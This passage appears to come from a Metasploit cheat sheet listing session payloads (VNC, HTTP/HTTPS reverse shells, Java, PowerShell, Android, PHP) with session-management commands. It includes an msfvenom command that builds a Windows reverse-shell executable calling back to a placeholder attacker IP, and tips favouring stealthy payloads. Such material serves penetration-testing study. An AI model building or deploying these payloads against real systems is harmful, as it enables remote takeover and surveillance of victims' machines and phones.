  *VNC Bind* >> `payload/windows/vncinject/bind_tcp`

  **It has full GUI access, more useful for performing actions that require visual interaction, but it is easy to detect.**

 **(IV). HTTP/HTTPS SHELL** >> Payloads like these are used to bypass firewalls or proxy settings, as HTTP/HTTPS traffic is less likely to be blocked.

 *HTTP Reverse Shell* >> `payload/windows/meterpreter/reverse_http`

 *HTTPS Reverse Shell* >> `payload/windows/meterpreter/reverse_https`

 **(V). JAVA SHELLS** >> Java-based sessions that exploit Java vulnerabilities to execute commands or payloads on the target.
 
 *Example* >> `payload/java/meterpreter/reverse_tcp`

**(VI). POWERSHELL SESSIONS** >> Used for Windows systems to execute *PowerShell* commands on the target.

 *Example* >> `payload/windows/powershell_reverse_tcp`

**(VII). ANDROID  METERPRETER SESSION** >> Designed for Android devices, enabling control of the target device, if access is gained, it can access files, cameras, SMS messages, and location.

 *Example* >> `payload/android/meterpreter/reverse_tcp`

**(VIII). PHP WEB SHELLS** >> Web-based shells that exploit vulnerable web applications, it penetrates through the web server.

 *Example* >> `payload/php/shell/reverse_tcp`

**(IX). CUSTOM SESSION** >> Custom payloads can be created using Metasploit's `msfvenom` tool, and it can be tailored for specific environments, such as IoT devices or embedded systems.

 *Command to create a custom payload* >> `msfvenom -p windows/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<port> -f exe > shell.exe`


### **SESSIONS MANAGEMENT COMMANDS**

 * List active sessions >> `sessions -l`
  
 * Interact with a specific session >> `sessions -i <session-id>`

 * Kill a session >> `sessions -k <session-id>`
  

### **CHOOSING THE RIGHT SESSION**

 * Use Meterpreter for advanced post-exploitation.

 * Opt for shell sessions when minimal intrusion is needed.
 
 * Use HTTP/HTTPS payloads for stealthy attacks.

 * Consider VNC sessions for GUI-based actions


### **HOW TO GENERATE MULTIPLE SESSIONS**

 * open *metasploit* in terminal >> `sudo msfconsole`
 